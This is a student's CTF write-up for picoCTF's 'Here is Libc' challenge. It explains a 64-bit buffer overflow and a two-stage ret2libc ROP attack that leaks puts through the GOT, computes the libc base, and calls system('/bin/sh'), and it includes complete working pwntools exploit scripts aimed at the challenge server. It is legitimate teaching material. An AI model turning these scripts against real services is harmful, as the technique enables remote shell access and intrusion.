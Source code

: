 # CTF Write-Up: [Here is Libc][Binary Exploitation]

## Description
>I am once again asking for you to pwn this binary vuln libc.so.6 Makefile nc mercury.picoctf.net 1774


## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{1_<3_sm4sh_st4cking_f2ac531bbb3a68ed}`)

## Difficulty
- **Difficulty Level:** hard

## Tools Used
- gdb
- Youtube

## Write-Up

### Preparatory Phase

The first course of action was running `checksec vuln` to obtain the binary architecture and its protections. We find out that it is a 64-bit architecture with `NX` enabled which suggests that we cannot run our own shellcode on the stack. In conjuction with the name of the challenge we will need to likely use the `libc` file to obtain shell access.  We must also note that `Partial RELRO` is on, which means we can still write to the `GOT`.



Running the binary locally under `gdb` presented issues. I searched up the problem on StackOverflow and ran `sudo ldconfig -v`, but it didn't seem to work. Thus I then manually decided to obtain the offset using a manual binary search method. I eventually found the minimum value it core dumped was at 136 bytes deep.

```
Inconsistency detected by ld.so: dl-call-libc-early-init.c: 37: _dl_call_libc_early_init: Assertion `sym != NULL' failed!
```
> Error provided




![alt text](images/image.png)
> Found offset to be exactly 136 bytes

Conducting static analysis using `gdb` I was able to print the functions present in the program. We must note the `puts@plt` which will be useful in leaking the address of `puts`. Using my analogy (inside `ANALYSIS.md`), the `plt` is 

![alt text](images/image-1.png)

My first aim is to leak the address of `puts` using one **ROP chain.** Then using this information I am able to obtain the base address for `libc` and obtain the addresses for `system` and `/bin/sh` to form our **second ROP chain** which will form the main punching power of our payload.

### Attack Phase
Using the formula from above I can begin my attack which is broken down into two phases. Reference: 
1. Obtain `libc` base
2. Exploit

To obtain the `libc` base we can take advantage of the dynamically linked standard C functions such as `puts`. What we want to do is push the `GOT` address of `puts` as an argument into the `puts` function (Mouth-full) so then the program will print the address of `puts`. We then need a pointer back to `main` to gain shell access.

Since `rdi` is the first argument to be pushed onto the stack via 64-bit calling conventions we need to find the gadget associated with `rdi`. We do this via `ROPgadget --binary vuln | grep rdi`

![alt text](images/image-2.png)

Using this knowledge and the fact that pwntools has inbuilt functionality to deal with ELF files using the documentation [here](https://docs.pwntools.com/en/stable/elf/elf.html),  we were able to leak
``` py
#!usr/bin/python3

from pwn import *
import sys

local = False
host = 'mercury.picoctf.net'
port = 1774
program = './vuln'

vuln_elf = ELF("./vuln")
libc = ELF('libc.so.6')
offset = 136

if local:
    io = process(program)
else:
    io = remote(host, port)

padding = b'A'*offset
pop_rdi = p64(0x0000000000400913)
puts_got = p64(vuln_elf.got['puts'])
puts_plt = p64(vuln_elf.plt['puts'])

## Note this only works because PIE and ASLR are disabled for the binary
main_addr = p64(vuln_elf.symbols['main'])


rop1_chain = [
    padding,
    pop_rdi,
    puts_got,
    puts_plt,
    main_addr    
]

rop1 = b''.join(rop1_chain)
io.sendline(rop1)
io.recvline()
io.recvline()
resp = io.recvline()
leaked_puts = resp
print(leaked_puts)
```

Now we have leaked where `puts` is and have returned back to the start of main is. We then can obtain the offsets for libc and get our **Bonnie and Clyde** (`system` and `'/bin/sh'`) using the below formula.
```
libc_base = leaked_puts - libc.symbols['puts']
bin_sh = next(libc.search(b"/bin/sh")) + libc_base
system = libc.symbols['system'] + libc_base

```

The payload should simply be `offset + pop_rdi_gadget + bin_sh + system`, but it didn't seem to work. Upon further investigation it appears my stack was not aligned properly and needed a `ret` instruction prior to calling `system`. 
### Final Solution/Payload

<details><summary> Dropdown for code </bold> </summary>
<br>

``` py
#!usr/bin/python3

from pwn import *
from Cryptodome.Util.number import bytes_to_long
import sys

local = False
host = 'mercury.picoctf.net'
port = 1774
program = './vuln'

vuln_elf = ELF("./vuln")
libc = ELF('libc.so.6')
offset = 136

if local:
    io = process(program)
else:
    io = remote(host, port)

padding = b'A'*offset
pop_rdi = p64(0x0000000000400913)
ret = p64(0x000000000040052e)
puts_got = p64(vuln_elf.got['puts'])
puts_plt = p64(vuln_elf.plt['puts'])
main_addr = p64(vuln_elf.symbols['main'])


rop1_chain = [
    padding,
    pop_rdi,
    puts_got,
    puts_plt,
    main_addr    
]

rop1 = b''.join(rop1_chain)
io.sendline(rop1)
io.recvline()
io.recvline()
resp = io.recvline().strip()
print(f"Leaked puts: {resp}")
leaked_puts_addy = u64(resp.ljust(8, b'\x00'))

libc.address = leaked_puts_addy - libc.symbols['puts']

print(f"Base of libc is {hex(libc.address)}")
bin_sh = p64(next(libc.search(b'/bin/sh')))
system_addy = p64(libc.symbols['system'])

rop2_chain = [
    padding,
    ret,
    pop_rdi,
    bin_sh,
    system_addy
]
payload = b''.join(rop2_chain)
io.clean()
io.sendline(payload)
io.interactive()



```
</details>

![alt text](images/image-3.png)

### Lessons Learnt
1. Within the COMP6841 wargames, there was a `ret2libc` exercise but it leaked the address of a known function explicitly. However, this time this exercise requires two payloads - one to leak an function address in order to obtain the `libc base` and a second payload to gain shell access. Reading [this](https://tc.gts3.org/cs6265/tut/tut06-01-rop.html) assisted in my learning.

2. It was vital that for each binary exploitation challenge I must check the architecture via `file` or `checksec`. The way we approach 32-bit and 64-bit exploitations is different due to their differences in calling conventions. I attempted to do this challenge with the same mindset as I employed with the COMP6841 Wargames `ret2libc` but it didn't work and it wasted hours of my time :(.

3. Stack alignment is paramount on `x64` architectures as it needs to be a multiple of 16 bytes. We do this by prepending a `ret` instruction on our payload. https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/stack-alignment
## References

- https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html
- https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/stack-alignment
